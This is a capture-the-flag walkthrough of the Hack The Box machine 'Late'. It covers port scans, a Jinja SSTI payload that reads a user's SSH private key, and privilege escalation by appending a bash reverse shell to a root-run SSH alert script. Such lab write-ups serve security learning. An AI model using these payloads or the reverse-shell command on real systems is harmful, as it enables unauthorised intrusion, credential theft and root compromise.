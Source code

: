# Late

nmap

```
Running command: sudo masscan -e tun0 -p1-65535,U:1-65535 --max-rate 500 --interactive 10.129.77.197
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-07-05 17:33:38 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.129.77.197
Discovered open port 22/tcp on 10.129.77.197

Running command: sudo nmap -A -p22,80 10.129.77.197
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-05 18:42 BST
Nmap scan report for late.htb (10.129.77.197)
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (94%), Linux 5.4 (94%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.0 - 5.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.03 ms 10.10.14.1
2   30.49 ms late.htb (10.129.77.197)
```

on the website we´ll find a hyperlink to images.late.htb.

Visiting iamges.late.htb we are presented with an ocr solution, hinting the usage of flask.

Crafting a simple SSTI Payload as an image will confirm the vuln:

![](./images/ssti.png)

After a while of trial and error i found out that "Cascadia Mono Light" works best.

Payload for extracting the ssh private key:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

Saving it locally and loggin into ssh via:

```
ssh svc_acc@late.htb -i ~/svc_acc_id_rsa
```

Running common local privesc doesnt really show any funky things, so i ran pspy64
to recon for commands that are executed on the machine.

```
2022/07/05 19:25:01 CMD: UID=0    PID=4847   | /bin/sh -c /root/scripts/cron.sh
2022/07/05 19:25:01 CMD: UID=0    PID=4846   | /usr/sbin/CRON -f
2022/07/05 19:25:01 CMD: UID=0    PID=4849   | chattr -a /usr/local/sbin/ssh-alert.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4859   | /bin/bash /root/scripts/cron.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4858   | /bin/sh -c /root/scripts/cron.sh
2022/07/05 19:26:01 CMD: UID=0    PID=4857   | /usr/sbin/CRON -f
2022/07/05 19:26:01 CMD: UID=0    PID=4864   | chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
```

ssh-alert.sh has following contents:

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Seems like a script to notify when a user logs in via ssh.
We can confirm this by running pspy and logging into ssh.

```
2022/07/05 19:29:18 CMD: UID=0    PID=4915   | sshd: svc_acc [priv]
2022/07/05 19:29:18 CMD: UID=0    PID=4919   | /usr/sbin/sendmail root@late.htb
2022/07/05 19:29:18 CMD: UID=0    PID=4920   | sendmail: MTA: 265JTIwi004920 localhost.localdomain [127.0.0.1]: DATA
2022/07/05 19:29:19 CMD: UID=0    PID=4921   | sendmail: MTA: ./265JTIwi004920 from queu
```

Whats also notable is the chattr command from earlier:

```
2022/07/05 19:25:01 CMD: UID=0    PID=4849   | chattr -a /usr/local/sbin/ssh-alert.sh
```

While weve seen a chown to our account we arent able to open the file for writing, only for appending.

With a quick payload appended:

```
echo 'bash -i >& /dev/tcp/10.10.14.104/8082 0>&1' >> ssh-alert.sh
```

Loggin into ssh gives us our reverse shell as root.
